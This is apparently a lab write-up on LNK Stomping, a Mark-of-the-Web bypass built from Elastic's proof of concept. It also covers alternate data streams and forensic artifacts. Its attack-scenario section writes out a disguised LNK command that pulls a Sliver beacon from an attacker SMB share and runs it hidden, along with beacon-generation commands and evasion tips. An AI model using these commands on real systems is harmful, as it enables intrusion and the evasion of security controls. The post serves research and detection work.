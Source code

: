 ```yaml
---
title: "LNK Stomping"
date: 2024-09-04T17:17:01-06:00
draft: false
---
```



This [PoC provided by Elastic](https://github.com/joe-desimone/rep-research) is about LNK Stomping. Currently Microsoft has not provided a CVE for this method; however, they did release CVE-2024-38212, a MotW bypass vulnerability, but only included SmartScreen, not Smart App Control (SAC). As this testing is done on Windows 10 with build number 19045, I won't be dealing with SAC anyway. The PoC can bypass both.

A quick primer on MotW from Elastic:
> When a user downloads a file, the browser will create an associated “Zone.Identifier” file in an [alternate data stream](https://www.digital-detective.net/forensic-analysis-of-zone-identifier-stream/) (ADS) known as the Mark of the Web (MotW). This lets other software (including AV and EDR) on the system know that the file is more risky. SmartScreen only scans files with the Mark of the Web. SAC completely blocks certain file types if they have it. This makes MotW bypasses an interesting research target, as it can usually lead to bypassing these security systems. Financially motivated threat groups have discovered and leveraged [multiple vulnerabilities](https://blog.google/threat-analysis-group/magniber-ransomware-actors-used-a-variant-of-microsoft-smartscreen-bypass/) to bypass MotW checks. These techniques involved appending crafted and invalid code signing signatures to javascript or MSI files.

I explained what an ADS is in a previous post [[T1564 004]]
> A data stream that is alternate to the normal data stream. The data attribute (`$DATA`) is called the “normal” data stream or “unnamed” data stream since it can be left blank.
>     - A normal data stream looks like `$DATA:""`
>     - An alternate data stream can be `$DATA:"SecondStream"`
> - To read what’s inside an ADS
>     - `Get-Item -path <file> -stream *`
>     - `Get-Content -path <file> -stream <stream name>`
> - To add streams to a file
>     - `set-content -path <path> -stream <stream name>`
> - To search for ADS
>     - `gci -recurse | % { gi $_.FullName - stream * } | where stream -ne ':$Data'`
> - To remove ADS
>     - `remove-item -path <path> -stream <stream name>`
> - A sysinternals tool called `streams.exe` can also enumerate streams
>     - `streams <file path>`

To provide a more visual explanation, taking the PoC GithHub repo above, you can view the data streams within the ZIP file (`Get-Item`) and view the contents to see where it came from (`Get-Content`). I downloaded the ZIP directly because cloning the repo only provides a `$DATA` stream. The Git client simply does not have a Zone.Identifier ADS which can also be treated as a way to bypass MotW. 
![1.png](/lnkstomping/1.png)

What's interesting from the first screenshot is the inclusion of a SmartScreen data stream. This is a stream that provides an additional hook into the registered AV engine.

![3.png](/lnkstomping/3.png)

SysInternals also includes a tool if that command is too annoying to type out. The caveat being you can't view the content.
https://learn.microsoft.com/en-us/sysinternals/downloads/streams

![4.png](/lnkstomping/4.png)

Now rather than just using a different file type like an ISO embedded within a ZIP archive, something [Black Basta](https://www.trendmicro.com/en_us/research/22/j/black-basta-infiltrates-networks-via-qakbot-brute-ratel-and-coba.html) and numerous other threat actors have done in the past, Elastic uncovered another trivial way of evading MotW by using LNK files with non-standard target paths or internal structures. When the file is clicked, `explorer.exe` modifies the file with canonical formatting, removing the MotW label. 
In this example, I used the dot variant which appends a dot after the PowerShell executable so it looks like `~\powershell.exe.` 

```python
python lnk_stomping.py --executable c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe --arguments "-c calc" --icon folder --variant dot --output totally_legit.lnk
```

The `--icon` argument argument can either make the LNK file to appear as a folder or pdf icon. An [obfuscation method](https://attack.mitre.org/techniques/T1027/012/) threat actors use to make their files appear legit.

![5.png](/lnkstomping/5.png)

Using Eric Zimmerman's tool LECMD, the path with the dot operator can be seen
![6.png](/lnkstomping/6.png)

Since all of this was done locally, testing if it evades MotW won't work since it was never applied in the first place. Instead, I hosted this file elsewhere and download it to my Windows system and you can see below the Zone.Identifier stream attached. If you're wondering why the filename changed, the GitHub repo hosts sample files already configured with dot, path segment, and relative variants. Each of them can be recreated anyway using the Python script and supplying the appropriate variant you want to test.

![7.png](/lnkstomping/7.png)

Following execution with a successful `calc.exe` process opened, the stream is gone!
![8.png](/lnkstomping/8.png)

Viewing the LNK via LECMD again confirms Windows Explorer did indeed modify the file to fix the trailing dot.
![9.png](/lnkstomping/9.png)

### Attack Scenario

To put a little more effort into this, I modified the arguments to download a remote file and execute it to gain a Sliver beacon. I'm not trying to win any awards for defense evasion or command obfuscation but you could simplify this a bit with `psexec`. However, since `psexec` is a part of the Sysinternals suite, it would rely on the victim already having it installed which in this case isn't realistic. 

`-c net use \\192.168.98.108\kalishare /USER:anon anon; copy \\192.168.98.108\kalishare\READY_CANAL.exe; powershell.exe -WindowStyle hidden .\READY_CANAL.exe" --icon pdf --variant dot --output sliver.lnk`

The command starts by connecting to an SMB share running on the attacker system with credentials anon:anon. 

![10.png](/lnkstomping/10.png)

Next, it copies the Sliver beacon to the victim's current working directory. But in order to copy a beacon, one has to be created first. Within the sliver terminal:

`generate beacon -b 192.168.98.108 --skip-symbols --debug -j 5 -S 15 --os windows`

Without providing a name, it will create a randomly generated one which in this case is `ROYAL_CANAL.exe`. Better opsec would be to rename this as a process already present on Windows, like `svchost.exe`. It won't totally evade detection as Sliver is very well known and Windows Defender signatures will flag and purge this instantly, but it's a start. Next steps would be to implement something like [PEzore](https://iwantmore.pizza/posts/PEzor.html)

So with a beacon payload generated and an SMB share running, the last step is to start an HTTPS listener so the beacon has something to connect back to.

![11.png](/lnkstomping/11.png)

Everything's ready so it's time to execute! Following execution, Sliver got a callback. 
![12.png](/lnkstomping/12.png)

From here, it's up to the features of Sliver and any additional tools within the Armory to carry out further attacks. If noise is what you're after, you could run `seatbelt -i -- -group=system` to dump everything about the current system. Mainly Event ID's 4798 (group-membership-enumerated) and 4799 (user-member-enumerated). 
Since this is an HTTPS beacon, you'll see a lot of Sysmon event ID 3 ( Network connection detected) logs too for each task and check-in. 

For this lab, the user account is vulnerable by default and a part of the Administrators group so owning the system is quite easy.

![13.png](/lnkstomping/13.png)

### References
https://www.elastic.co/security-labs/dismantling-smart-app-control
https://github.com/joe-desimone/rep-research
https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/
https://unprotect.it/technique/mark-of-the-web-motw-bypass/
